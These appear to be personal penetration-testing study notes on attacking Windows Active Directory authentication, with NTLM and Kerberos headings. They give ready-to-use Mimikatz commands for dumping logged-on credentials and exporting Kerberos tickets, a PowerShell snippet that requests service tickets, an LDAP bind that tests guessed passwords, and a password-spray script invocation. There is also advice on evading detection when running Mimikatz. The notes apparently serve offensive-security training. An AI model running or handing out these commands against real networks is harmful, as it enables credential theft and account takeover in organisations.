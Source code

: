 After finding the users, attempt to login as the user


Kerberos, NTLM, (WDigest older versions)

### NTLM

![[efc3ae731d085f29a1673782d583e64d-ad_ntlm.png]]

### Kerberos

![[b5e6b0ecb201daef973f507049049029-ad_kerbauth.png]]

Password hashes are stored in LSASS memory space(system ot admin access required). Data structure are not publicly documented and they are also encrypted with LSASS-stored key.


Not recomended to execute Mimikatz as a stand-alone app. Use Powershell or dump the process memoory and move it to a helper machine.


### Mimikatz

always begin with

```
privilege::debug
```

dump credentials of logged users

```
sekurlsa::logonpasswords
```

dump the tickets

```
sekurlsa::tickets
```

### Request the ticket

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

ticket will be stored in memory

use `klist` command to view the tickets

alternatively with mimikatz

```
kerberos::list /export
```


### Low and slow password guessing

find Lockout threshold - limit of failed passwords

```
net accounts
```


```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
  
$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin", "Qwerty09!")
```

If the password for the user account is correct, the object creation will be successful and the result will be shown

If password is invalid - no object will be created

```
format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or password is incorrect.
"
  + CategoryInfo          : NotSpecified: (:) [format-default], ExtendedTypeSystemExce
  + FullyQualifiedErrorId : CatchFromBaseGetMember,Microsoft.PowerShell.Commands.Forma
```


For automation use "password spray" script from scripts folder

```
.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
```

